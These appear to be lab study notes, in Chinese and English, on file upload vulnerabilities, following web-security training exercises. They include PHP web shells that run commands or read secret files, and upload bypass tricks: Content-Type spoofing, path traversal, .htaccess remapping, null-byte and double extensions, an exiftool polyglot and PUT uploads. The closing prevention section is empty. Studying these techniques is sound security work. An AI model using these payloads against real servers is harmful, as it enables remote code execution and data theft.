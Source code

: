 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## Web server prevent 
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">

**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp

**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
- 位元組序列
- JPEG 檔案始終以位元組 開頭FF D8 FF
- 使用 ExifTool 等特殊工具

**Lab: Remote code execution via polyglot web shell upload**
- exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

## Other 
**Exploiting file upload race conditions**
- 先將檔案上傳到一個臨時的沙盒目錄，並隨機化檔案名稱以避免覆蓋現有檔案

**Exploiting file upload vulnerabilities without remote code execution**
- 上傳 HTML 檔案或 SVG 圖像
- <script>

**Exploiting vulnerabilities in the parsing of uploaded files**
- 嘗試利用特定於解析或處理不同檔案格式的漏洞
- .doc.xls.xml
-  XXE 注入攻擊的潛在載體
  
**使用 PUT 上傳文件**
- OPTIONS 向不同的端點發送請求，以測試是否有任何端點支援該PUT方法
- PUT /images/exploit.php HTTP/1.1
- Host: vulnerable-website.com
- Content-Type: application/x-httpd-php
- Content-Length: 49
- <"?php echo file_get_contents('/path/to/file'); ?">

## Prevent file upload vulnerabilities
